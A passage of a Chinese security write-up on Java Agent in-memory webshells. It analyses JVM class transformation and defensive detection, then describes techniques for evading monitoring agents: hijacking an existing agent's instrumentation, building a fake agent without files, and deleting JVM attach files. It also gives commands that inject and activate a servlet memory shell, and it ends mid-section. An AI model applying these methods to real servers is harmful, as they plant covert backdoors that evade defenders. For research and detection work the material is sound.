# Agent 内存马的攻防之道 - 先知社区

Agent 内存马的攻防之道

- - -

## 前言

一般来说，java 内存马主要可以分为两种形式：

1.  创建如 controller、servlet、filter、valve 等 java web 组件，并通过如反射等形式进行注册或替换
2.  通过 java agent 技术，修改一些关键类 （如 servlet） 的代码

这两种方式可以说各有优劣，对于第一种方式来说，虽然利用起来更为简单，但是需要依赖于具体组件，且由于注入的类位置比较明确且没有实体文件，所以比较容易检测出来。

而 Agent 型内存马，其真正修改的类位置并不固定，且被修改的类并不是纯粹的“内存”类，相对来说检测起来会更复杂一些。而这方面的技术也越来越多，从一开始的落地 Jar 命令执行命令注入，到 Self Attach，再到无文件落地，借助 shellcode 的 Agent 注入。相关的技术实现也越来越精彩。

不过看网上的各类文章，少有人去深入分析其底层原理，本文将从 java agent 的 `transform` 流程入手，从攻防的角度，为大家剖析 Agent 型的内存马，并为大家带来几种不那么一样的 Agent 型内存马。

注：文中所涉及到的大量 jdk 源码分析主要基于 [openjdk 8u121](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13)，所实现的攻击方式及测试代码在 [agentcrack](https://github.com/rzte/agentcrack/) 中可找到。

## transform 流程

我们用 java agent 的目标就是修改一些关键类，那么正常情况下这是一个怎样流程呢？

正常情况下，java agent 在 JVM 中有两种加载形式，跟进其代码：

-   [Agent\_OnLoad](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/InvocationAdapter.c#L144)：相当于 java 运行时，通过 `-javaagent` 参数加载指定的 `agent`。
-   [Agent\_OnAttach](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/InvocationAdapter.c#L294)：通过 `VM.attach` 方法，向指定的 java 进程中，注入 `agent`。

分析其代码，可以看到处理逻辑大同小异，主要流程就是创建 [JPLISAgent](https://github.com/openjdk/jdk8u/blob/master/jdk/src/share/instrument/JPLISAgent.h#L96) 以及 `java.lang.instrument.Instrumentation` 实例。然后调用 `agentMain` 或者 `preMain` 进行处理。

我们注入的 `agent` 代码中所能拿到的 `InstrumentationImpl` 就是在上面的逻辑中创建的。

而作为攻击方，我们往往会使用 `redefineClasses` 或者 `addTransform + retransform` 的方式，去修改类。这两种方式分别是怎样修改的呢？这就需要分析 jvm 中类的加载流程了。了解了底层逻辑，才能在攻防之中占据主动地位。

## JVM 类加载流程

关于类的加载流程，可以从三个方面去入手：

-   正常的类加载流程
-   被 `redefineClasses` 后的类的加载流程
-   被 `retransformClasses` 后的类的加载流程

这一块的代码详细分析起来比较占用篇幅，这里主要阐述一下相关逻辑，以及关键步骤代码。有兴趣的可以自己跟着分析一下代码。

下面是我整理的 java 类的加载流程图（若图中有不准确的地方，欢迎指正），可结合图下面的文字阐述进行理解。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126104326-93322fca-8c05-1.png)

-   java 类在内存中是以 [InstanceKlass](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/instanceKlass.hpp#L43) 的形式存在的，这个 `InstanceKlass` 中便包含了类中所定义的变量、方法等信息。需要注意的是，当我们使用 java agent 技术时，虽然我们可以在 `ClassFileTransformer.transform` 中能拿到指定类的字节码，但内存中默认情况下其实是不会保存 java 类的原始字节码的。
-   正常的 java 类加载时，会从指定位置（一般也就是本地的 jar 包中）获取到类字节码，然后会经过 [JvmtiClassFileLoadHookPoster](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiExport.cpp#L511) 的转换后，得到最终的字节码。然后编译为对应的 `InstanceKlass`，当然在编译时会进行相应的优化，不过与本主题无关，这里不进行赘述。
    -   而这个 `JvmtiClassFileLoadHookPoster` 中维护着一个 [JvmtiEnv 链](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiExport.cpp#L574C12-L574C20) ，我们所用到的 `java agent` 技术中，当 agent 加载时，其实就是在这个 `JvmtiEnv` 链上添加一个 `JvmtiEnv`节点，从而修改类的字节码，如 [post\_all\_envs()](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiExport.cpp#L569) 中所示。
    -   `JvmtiEnv` 实例中有个关键的变量: [`_env_local_storage`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiEnvBase.hpp#L97)，这个变量所对应的类型是[`_JPLISEnvironment`](https://github.com/openjdk/jdk8u/blob/master/jdk/src/share/instrument/JPLISAgent.h#L90)，从中我们可以看到与之关联的 `JPLISAgent`。而这个 `JPLISAgent` 就是 `InstrumentationImpl` 构造方法中的 `mNativeAgent`。从这个 `_JPLISAgent`中我们也可找到对应的 [instrumentation 实例](https://github.com/openjdk/jdk8u/blob/master/jdk/src/share/instrument/JPLISAgent.h#L100)，以及其要执行的方法: [mTransform](https://github.com/openjdk/jdk8u/blob/master/jdk/src/share/instrument/JPLISAgent.h#L103C1-L103C1)，也就是 `InstrumentationImpl` 类中的 [transform](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/classes/sun/instrument/InstrumentationImpl.java#L415) 方法。
    -   对于 `JvmtiEnv` 节点来说，具体的转换流程便是通过 [callback](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiExport.cpp#L607) 而实现的，具体的 `callback` 方法便是[eventHandlerClassFileLoadHook](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/InvocationAdapter.c#L476)，从中我们可以看到这个回调函数便是在 [transformClassFile](https://github.com/openjdk/jdk8u/blob/master/jdk/src/share/instrument/JPLISAgent.c#L833) 方法中调用的 `InstrumentationImpl` 对象的 `transform` 方法，这样便回到了我们熟知的 `java` 代码中。
-   `redefineClasses`，顾名思义，重定义一个类，与普通的类加载流程相比，这里主要就是将类的来源更换为指定的字节码。具体的类加载流程并无太大差别。
-   当 java 类要被 `retransformClasses`转换时，会根据 `InstanceKlass` [重新生成一份对应的类字节码](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiEnv.cpp#L257)，并存入缓存中[`InstanceKlass._cached_class_file`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/instanceKlass.hpp#L258)，**下次再被`retransformClasses`时将直接使用缓存中的类字节码**。
    -   与正常的类加载流程相比，被 `retransformClasses` 所重新加载的类，不会再经过 `no retransformable jvmti` 链的处理。
-   java agent 在被加载时（[onLoad](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/InvocationAdapter.c#L144) / [onAttach](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/InvocationAdapter.c#L294)），jvm 将创建一个 `jvmtiEnv` 实例，对应了上图中的 `no retransformable jvmti 链`。
    -   当第一次添加 `retransformer`（也就是在 `addTransformer` 时指定 `canRetransform` 为 `true`）时，会**通过 [setHasRetransformableTransformers](https://github.com/openjdk/jdk8u/blob/9499e54ebbab17b0f5e48be27c0c7f90806a3c40/jdk/src/share/instrument/JPLISAgent.c#L1061) 方法在 jvmti 链上追加一个新的节点**，也就是上图中的 `retransformable jvmti 链`。
    -   关于图中的 `no retransformable jvmti` 链 与 `retransformable jvmti` 链，其实都是在一条链表上，只不过在使用时根据 [`env->is_retransformable()`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiExport.cpp#L569) 而分为两批使用。在类加载或是被重定义时，对我们在 `java agent` 中添加的 `transformer` 来说，普通的 `transformer` 永远在 `canRetransform` 为 true 的 `transformer` 之前执行。

## 攻防博弈

注：下文统一以 "transformer" 代表 `addTransformer` 时，参数 `canRetransform` 为 false 的 `transformer`。以 "reTransformer" 代表 `addTransformer` 时，`canRetransform` 为 true 的 `transformer`。这两个具体的区别，可参考上面的 “jvm 类加载流程”。

### 攻击方

对于 agent 型内存马来说，其主要目的就是修改一些关键类的字节码。总的来说有两种方式：

-   借助 [redefineClasses](https://github.com/openjdk/jdk8u/blob/9499e54ebbab17b0f5e48be27c0c7f90806a3c40/jdk/src/share/classes/sun/instrument/InstrumentationImpl.java#L153) 方法去重定义指定的类。参考类转换流程图中的 `Redefine Class`路线。
-   借助 [retransformClasses](https://github.com/openjdk/jdk8u/blob/9499e54ebbab17b0f5e48be27c0c7f90806a3c40/jdk/src/share/classes/sun/instrument/InstrumentationImpl.java#L139)方法，让指定的类重新转换，当然在执行此方法前，需要先用 `addTransform` 方法添加一个 "reTransformer"，从而在对应类重新转换时，用自己刚才添加的 `transformer` 修改对应的类。参考类转换流程图中的 `RetransformClasses` 路线。

当然，具体到实现上，有最基础的，上传一个 `agent.jar` 到受害者服务器，然后再 `loadAgent`从而获取 `Instrumentation` 对象。之后便可以通过 `redefineClasses`或者`retransformClasses`修改关键类。

也有比较复杂的，如 冰蝎的 借助 shellcode 组装出一个 `JPLISAgent`，从而构造出 `Instrumentation`对象。再通过 `redefineClasses` 修改 `javax.servlet.http.HttpServlet`。参考: [论如何优雅的注入 Java Agent 内存马](https://paper.seebug.org/1945/#jplisagent)。

这两者之间更多的体现在`Instrumentation`对象的构造方式不同，冰蝎的这种方式不依赖于 `jvm attach` 也不需要在本地上传 `jar` 包，会更加隐蔽。不过单从修改类的方式来说，都可以归为这两种方式: `redefineClasses` 以及 `retransformClasses`。

那么这两种攻击方式分别有什么优劣呢？先不急分析，我们先看一下防守方。

### 防守方

对于防守方来说，想要检测某些关键类是否被修改，必须要设法从内存中获取到对应的类。一般来说，能走的也只有两条路：

-   直接解析 jvm 内存，从中 dump 出一些关键类，参考 [CLSHDB](https://github.com/openjdk/jdk8u/blob/9499e54ebbab17b0f5e48be27c0c7f90806a3c40/hotspot/agent/src/share/classes/sun/jvm/hotspot/CLHSDB.java)。不过这种方式非常复杂，类字节码并不是原原本本的存在内存中的，而是经过了编译优化，且不同版本的 jdk 实现细节也不一样，内存中相关区域也可能会经常更新，所以很少有人会选择使用这种方式
-   同样的借助 java agent 技术，添加自己的 "reTransformer"，并在关键类加载（或是主动对其`retransformClasses`）时，拿到该类真实的字节码进行检测。

而就 `java agent`技术来说，防守方有两种使用方式：

-   防护模式：在 java 应用运行时，便加载一个 `java agent`，并添加自己的检测 `reTransformer`，每当关键类加载（或重新加载）时，可以检测该类的字节码是否有异常
-   临时检测模式：对于正常运行的可能被植入内存马的 java 应用，通过如 [VirtualMachine.attach](https://github.com/openjdk/jdk8u/blob/9499e54ebbab17b0f5e48be27c0c7f90806a3c40/jdk/src/share/classes/com/sun/tools/attach/VirtualMachine.java#L195) 的方式，加载自己的 `java agent`，添加一个临时的 `reTransformer`，进而获取到指定类字节码。

当然了，在“防护模式”下，防守方占据了先手，可以做到更多，比如监控 `addTransformer` 、监控 `retransformClasses`、监控 `redefineClasses`方法等。

类似的，在攻击者占据先手的情况下，攻击者也可能会采用一些方式来阻止防御方 Agent 的加载。例如通过删除 `/tmp/.java_pid<pid>` 文件，来阻止 JVM 进程通信，从而使防御方的 Agent 无法加载; 通过阻止后续 `ClassFileTransformer` 加载的方式，避免被后续的 `Java Agent` 检测等。不过**这些方式在阻止了防御方 Agent 加载的同时，基本上也可以认为正式的暴露了自己**。

类似可以做的事情还是挺多的，不过在我看来这些都属于另外一个维度了，本文主要探讨 java agent 技术本身，只考虑成功加载 Agent 的情况。 在修改关键类成功的情况下，防守方能不能检测到对应类被修改，或者说攻击者是否会被防守方发现。

### 博弈

当攻击方和防守方都使用 java agent 技术时，结果可能看上去变得“不确定”起来。但是真的不确定吗？

当然不是了，我们前面的 `类加载流程图`可不是白梳理的。攻防之间的对抗，总的来说，可以分为几种情况：

1.  防御者处在“防护模式”下，攻击者通过 `redefineClasses` 来修改指定的类
2.  防御者处在“防护模式”下，攻击者通过 `retransformClasses` 来修改指定的类
3.  攻击者通过 `redefineClasses`修改指定类后，防御者进行检测
4.  攻击者通过 `retransformClasses` 修改指定类后，防御者进行检测

我们可以对照着 “类加载流程图” 分别来看一下这些情况。

#### 防护模式

防护模式下，相当于防守方在 `retransforrmable jvmti` 链上添加了自己的“检测模块”，每当类重新定义时，检测模块可检测类的字节码是否被恶意修改。

当攻击者通过 `redefineClasses` 修改关键类时，如下图中的红色路径所示，**被重新定义的类会经过防守方的“检测模块”，从而被检测到该类被植入恶意代码**。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126111140-84c5ee14-8c09-1.png)

当攻击者先添加自己的 `reTransfomer`后，再通过 `retransformClasses`修改指定类时，如下图所示，因为攻击者的 `agent` 是在防御者之后注入的，所以其修改类字节码的逻辑（攻击模块）在防御者的“检测模块”之后加载。这种情况下，**虽然防守方可以感知到类被重新加载了，但是却无法拿到被攻击者修改之后的类字节码**。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126111212-97ae6a56-8c09-1.png)

除了这些外，在防护模式下，只要有类被重定义或是重新转换，都可以被防护模式自己的 agent 感知到，正如 [transform](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/classes/java/lang/instrument/ClassFileTransformer.java#L182) 方法中的 `classBeingRedefined` 参数，而在一个正常运行的应用中，几乎不会有这种情况。**所以说，即便防御方事前不知道攻击者将要修改的类，也可以通过这种方式发现某个类被修改了，进而去检测**。

#### 临时检测模式

这种情况下，往往是攻击方先植入内存马，防御方需要检测关键类是否被修改的情况。

当攻击者选择添加一个 `reTransformer`，然后再 `retransformClasses`使指定的类重新加载时，可以参考上面”防护模式“中的图2,只不过这次攻守易位，”检测模块“会在”攻击模块“之后加载，所以**可正常检测到对应的类被攻击者修改。**

但当攻击者使用 `redefineClasses` 重定义类时，而防御方再检测时，会变的有些不一样。

回到原来的图，可以看到 `retransformClasses`的转换路线中，有个非常关键的概念：“缓存字节码”，也就是 [`_cached_class_file`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/instanceKlass.hpp#L258)。这是个东西有什么用呢？

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126111321-c0def846-8c09-1.png)

当防御方通过 `retransformClasses` 重新加载类时，JVM 会先判断对应类是否有缓存，若没有缓存，则会根据当前类生成对应的类字节码，而**这个类字节码其实就是攻击者通过 `redefineClasseses` 所传入的恶意类字节码**。也就是，这种情况下，**防御方是可以检测到关键类被攻击者修改了**。

但是，如果此时该类是缓存的，则会直接使用缓存字节码，而缓存字节码是在**第一次**被`reTransformer`修改时，才会生成（注意，这里“修改”的意思是，只要在 `transform` 方法中，没有返回 `null` ，就认为该类被转换为新类），这里可参考关键代码 [parseClassFile.cpp](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/classfile/classFileParser.cpp#L3757-L3761) 以及 [jvmtiExport.cpp](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiExport.cpp#L616-L633)。所以，如果在攻击者用 `redefineClasses` 重定义关键类之前，对应的类已经有了缓存字节码，此时，防御者再用 `retransformClasses`时，**会直接使攻击者的修改失效**，达到“清除内存马”的效果。但是，这也就意味着，**此时防御者也就无法知道这个类之前是被攻击者修改过的了**。

## 测试

上面是理论，究竟是不是这这样呢？我们可以测试一下。

准备三部分：

-   目标应用 [app](https://github.com/rzte/agentcrack/tree/main/app)：内置一个“关键”类 `T`，循环执行 `T` 中的 `run` 方法。后续的攻防均针对该类。
-   攻击方 [javaagent-hack](https://github.com/rzte/agentcrack/tree/main/javaagent-hack)：借助 `java agent` 技术修改类 `T`
-   防守方 [javaagent-monitor](https://github.com/rzte/agentcrack/tree/main/javaagent-monitor)：在 `transformer` 中直接打印目标类(`T`)的字节码长度，来判断该类是否被恶意修改。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126111818-723036fa-8c0a-1.png)

### 防护模式

可看到“关键类” `T` 的大小为 `654`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126111841-7f78eea6-8c0a-1.png)

当攻击者使用 `redefineClasses` 重定义类 `T`后，T 的大小被检测到变为 `685`。所以，**在防护模式下，可成功检测到攻击者修改后的类**。

```plain
java -jar ./javaagent-hack/target/javaagent-hack-1.0-SNAPSHOT-jar-with-dependencies.jar <app_pid> redefine
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126111907-8f56111e-8c0a-1.png)

但是，当攻击者借助 `retransformClasses` 修改类时，可看到，“防护模式”下所看到的“关键类”仍然只是攻击者修改之前的。所以这种情况下，**防守方只能发现“关键类”被重新加载了一次，但无法“看到”这个类被修改后的“真实”的样子**。

```plain
java -jar ./javaagent-hack/target/javaagent-hack-1.0-SNAPSHOT-jar-with-dependencies.jar <app_pid> retransform
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126111945-a58f5d14-8c0a-1.png)

### 临时检测模式

测试路径：

-   防守方发起“第一次”检测，此时“敏感类”尚未被修改
-   攻击者实施攻击，修改了“敏感类”
-   防守方“再一次”发起检测

先来测试一下攻击者使用 `retransformClasses` 修改“敏感类”，由于防守方第二次检测的 Agent 是在攻击者之后加载，所以**这里成功的检测到类 T 被攻击者修改**。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112137-e8990f88-8c0a-1.png)

当攻击者使用 `redefineClasses` 时，同样的，**由于防守方的检测 Agent 在类被重定义之后加载，所以可成功看到被攻击者重定义后的类**。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112216-0006d9a2-8c0b-1.png)

但是，对于在攻击之前已有缓存的情况，这里我们让“防御者”的 `transformer` 不再返回 `null`，可以看到，**当防御者再一次检测时，未能发现关键类之前被攻击者修改过了，但同时，可以看到，攻击者的修改也被回滚了**，关键类 T 恢复原样，也就是恢复到了一开始缓存的代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112241-0ebca9cc-8c0b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112247-1269ff8e-8c0b-1.png)

## 借尸还魂

回到第二节 “transform 流程”中，我们可以看到，每当有 `java agent` 被加载时，JVM 都会在 `jvmtiEnv` 链上创建一个实例，而 `java agent` 技术中最关键的 `InstrumentationImpl` 实例，其实就存放在了这 `jvmtiEnv` 中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112342-330cdfc2-8c0b-1.png)

如果我们能直接解析内存，从中拿到一个 `jvmtiEnv` 实例后，又进一步拿到 `jvmtiEnv` 上的 `InstrumentationImpl` 对象，是不是就可以在不注入新的 Agent 的情况下，直接修改关键类的字节码了？

而刚好，现在大部分 java 应用其实都会借助 `java agent` 技术来对应用进行如 链路追踪(如 Skywalking) 或者安全加固（如 rasp）又或是热部署等。所以，对于一个比较成熟的生产环境下的 java 应用来说， 这个 jvmtiEnv 链上可能本来就有一些 Agent 存在。而这，或许就可以为我们的 “借尸还魂” 攻击方式提供了不错的生存环境。

### 拿到已有的 `agent` 实例

如何简便的拿到其他 `agent` 中的 `transformentationImpl` 实例呢？我们可以先从这个 `jvmtiEnv` 链入手。

链的头是什么？跟一下代码不难发现，是一个静态变量：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112504-63bfaf1e-8c0b-1.png)

那么就很简单了，从 `libjvm.so`中可以很方便的找到这个符号的相对地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112517-6be075a2-8c0b-1.png)

在这个 `JvmtiEnvBase` 结构中，我们可以看到 [`._next`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiEnvBase.hpp#L95) 以及 [`._env_local_storage`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jvmtiEnvBase.hpp#L97C15-L97C33)。其中 `_env_local_storage` 的实际类型就是 [`_JPLISEnvironment`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/JPLISAgent.h#L90)。从中我们便可以找到 `InstrumentationImpl` 实例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112637-9b2345e2-8c0b-1.png)

### jobject 转 java 对象

上面中我们拿到的 `InstrumentationImpl` 实例的类型是 `jobject`，如何从 `jobject` 地址转为在 java 中可以用的“对象”呢？

我们可以从 [JOL](https://github.com/openjdk/jol/blob/9d62009e97a1756ae91a16ab9e72f294efce17a9/jol-core/src/main/java/org/openjdk/jol/vm/HotspotUnsafe.java#L426) 中获取一些灵感，他这里是要获取 java 对象的地址，将对象放到数组中，在偏移 `arrayBaseOffset` 处，便可以获取到 0 号对象所对应的地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112705-abf82824-8c0b-1.png)

他是获取对象的地址，那我们也可以反其道而行之，创建一个对象数组，然后将 `jobject` 地址放在这个对象数组的 0 号偏移处，然后这个对象数组的 0 号元素，不就是我们心心念的对象了么：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126112717-b2f8ef96-8c0b-1.png)

### 实施攻击

拿到 `InstrumentationImpl` 实例后，便可以通过 `retransformClasses` 或是 `redefineClasses` 来修改指定的类。这里为了简单，直接取的 `jvmti` 链中的最后一个元素中，所关联的 `InstrumentationImpl` 对象。

为什么我要选最后一个呢？选最后一个的话，若其支持 `retransformClasses`，那么我们所追加的 `transformer` 便会在 `jvmtiEnv` 链的最后，这样的话，即便是攻击者处于防护模式下，也无法检测到“关键类”已经被我们修改了。

下面是攻击展示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113212-635580c0-8c0c-1.png)

### 内存马

我们可以将上述的测试代码转为 jsp 内存马，我们可以修改 `javax.servlet.http.HttpServlet` 中的 `service` 方法（当然 19 年以后，例如 tomcat10 对应的是 `jakarta.servlet.http.HttpServler`），从而拦截所有的请求。具体代码放在了 [NoAgent.jsp](https://github.com/rzte/agentcrack/blob/main/memshell/NoAgent.jsp)。考虑到修改字节码比较麻烦，可以借助 [memshell-server](https://github.com/rzte/agentcrack/tree/main/memshell-server) 进行辅助修改。

拉一个 `tomcat9` 试试（tomcat10 中 用到的是 `jakarta.servlet` ，有需要可以自己调整）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113555-e7f773a6-8c0c-1.png)

```plain
# tomcat 容器内
# 以 “防护模式” 启动 tomcat
export JAVA_OPTS="-javaagent:/opt/javaagent-monitor-1.0-SNAPSHOT-jar-with-dependencies.jar=false:javax.servlet.http.HttpServlet"
./bin/catalina.sh run


# 宿主机，激活 内存马
java -cp ${workdir}/memshell-server/target/memshell-server-1.0-SNAPSHOT-jar-with-dependencies.jar com.rzte.agentcrack.App http://127.0.0.1:8080/demo/NoAgent.jsp
```

看到成功更改类 `HttpServlet`，同时，“防护 Agent” 检测到 `HttpServlet` 被重新加载，将其写在了 `/tmp/T.bb40.class` 内。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113652-0a164516-8c0d-1.png)

查看 `/tmp/T.bb40.class`，虽然防守方检测到了 `HttpServlet` 被重新加载了，但是所看到的这个 `HttpServlet` 仍是正常的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113717-1918b4b8-8c0d-1.png)

不过，内存马早已经被注入成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113732-21c9fffe-8c0d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113739-261fc192-8c0d-1.png)

未指定 `cmd` 参数时：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113751-2d2bb41e-8c0d-1.png)

## 不一样的 Java Agent

上面的“借尸还魂”其实还是非常简单好用的，但是“尸体”并不是永远都会有的。而在常规 Agent 内存马植入过程中，往往需要在目标磁盘上落地一个 jar 包，正如 `rebeyond` 提到的，这种操作有些 "脏"，`attacker`应追求对目标环境的最小化影响。

而在 [论如何优雅的注入 Java Agent 内存马](https://paper.seebug.org/1945/) 以及 [Linux下内存马进阶植入技术](https://mp.weixin.qq.com/s/ulINOH4BnwfR7MBc6r5YHQ) 中也提到了一种解决方案，通过 hook native 方法，执行 shellcode，进一步构造出自己的 `JPLISAgent`，从而构造出 `InstrumentationImpl`对象，再借助 `redefineClasses` 修改指定的类。

这种方式的核心就是执行 hook native 方法，进而通过 shellcode 构造出 `JPLISAgent` 对象。

这里再带大家看另一种无需借助 shellcode 也无需释放 jar 文件的 “Java Agent”。正如前面在 jvm 类加载 流程中提到的，Agent 之所以能在运行时修改类，主要就是因为这个 `JvmtiEnv` 链，那除了 `onAttach` 外，还有什么办法能在这个 `JvmtiEnv` 链上追加我们自己的一个节点吗？

### JPLISAgent

[JPLISAgent](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/JPLISAgent.h#L96) 对象在 java agent 术中是非常关键的，它绑定了 `InstrumentationImpl` 对象以及对应的 `transformer` 方法， 也绑定了 `JavaVM` 、`JvmtiEnv` 来操作 JVM.

我们可在 [InstrumentationImpl](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/classes/sun/instrument/InstrumentationImpl.java#L64) 的构造函数中也可以看到这个关键的参数：`mNativeAgent`。这个 `mNativeAgent` 的实际类型便是这个`JPLISAgent`。前面也提到了，`JvmtiEnv`链中的每个节点，都关联着对应的 `JPLISAgent` 。

如 [retransformClasses](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/JPLISAgent.c#L1076)、 [redefineClasses](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/JPLISAgent.c#L1161) 等方法，也是需要从这个 `JPLISAgent` 中获取到 `JvmtiEnv`，借助 `JvmtiEnv` 来操作 JVM。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126113927-666b5fa4-8c0d-1.png)

### add retransformer

`java agent` 与 `JvmtiEnv` 节点并不是一对一的，当我们用 `-javaagent` 使应用在启动时加载一个 `jar` 包或是我们通过 `loadAgent` 一个 `jar` 包时，会产生一个对应的 `JvmtiEnv` 节点，这个节点所对应的 `transformer` 链便是 `no retransform` 的链。

当我们调用 `addTransform` 第一次添加一个 `can retransform` 的 `transformer` 时，VM 会在 `JvmtiEnv` 链末尾追加一个使用 `retransformer` 的节点。所以，我们可以从这个 `addTransform(canRetransform)`方法入手。

如下图所示，`addTransform` 之所以可以在 `JvmtiEnv` 链中追加一个新的节点，主要便是依靠这个方法: [setHasRetransformableTransformers](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/JPLISAgent.c#L1061)。而这个方法，不可避免的会用到 `mNativeAgent` 参数，也就是这个关键的 `JPLISAgent`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126114038-909450b0-8c0d-1.png)

与 `retransformClasses`、`redefineClasses` 不同的是， 这个方法会**为 `JPLISAgent` 创建一个新的 `JvmtiEnv`: [retransformerEnv](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/JPLISAgent.c#L982)**。也就是说，我们完全可以借助这个方法，来构造出 `JvmtiEnv` 从而完善我们的 `JPLISAgent`，进而构造出 `InstrumentationImpl` 对象，然后便可以 `retransformClasses` 或是 `redefineClasses`了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126114147-b9f4e578-8c0d-1.png)

不过，我们不难发现，它还依赖一个关键的变量便是 `agent->mJVM`，也就是 `JavaVM`对象。

### 寻找 JavaVM

`JavaVM` 对象可以认为是 Java 虚拟机的“柄”，需要用这个变量来操作虚拟机。它是一个指向 [JNIInvokeInterface](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jni.h#L211) 结构体的指针。

我们从哪里可以找一个 `JavaVM` 对象呢？我们可以在源码中找到这个一个对象: [main\_vm](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jni.cpp#L5031)，而其本身是静态符号，也就是说，我们可以直接从 `libjvm.so` 的符号表中找到他:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126114341-fd9b3da4-8c0d-1.png)

解决这个问题之后，我们便可以借助 `setHasRetransformableTransformers` 创建一个 `JvmtiEnv` 节点了。而有了对应的 `JvmtiEnv` 以及 `JavaVM` 后，我们可以看到，距离 `JPLISAgent`组成，只差 `jobject mInstrumentationImpl` 以及 `jmethodID mTransform`了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126114404-0b4a43d2-8c0e-1.png)

### jobject 与 jmethod

如何获取 `jobject mInstrumentationImpl`呢？我们在前面有提到，可以参考 [JOL](https://github.com/openjdk/jol/blob/9d62009e97a1756ae91a16ab9e72f294efce17a9/jol-core/src/main/java/org/openjdk/jol/vm/HotspotUnsafe.java#L426) 中的做法，直接借助 `unsafe.getObject`方法便可获取到 `InstrumentationImpl` 对象所对应的 `jobject` 地址。

那么现在只剩下一个问题了，如何获取到 `transformer` 方法？或者说，如何获取到 `transformer` 方法对应的 `jmethod` 地址？

很不幸，我没有找到简单的方式来获取这个 `jmethod`，思路在这里也卡了很久。原本走到这一步的是时候，以为已经结束了，没想到，这只是开始。。。。

到了这一步，或许用 `shellcode` 的方式来获取 `jobject` 的 `jmethod` 方法更简单，但是，都用 `shellcode` 了，那可以做的事情更多，只用来获取这么一个 `jmethod`有些显得大材小用了，而且使用 `shellcode` 也会额外带来一些不稳定性因素。

那还有没有其他办法能填补上这个 `jmethod` 字段呢？找不到简单的办法，那就先选择一个看起来比较复杂的办法 --- 解析 `jobject`。

#### jobject 到 klass

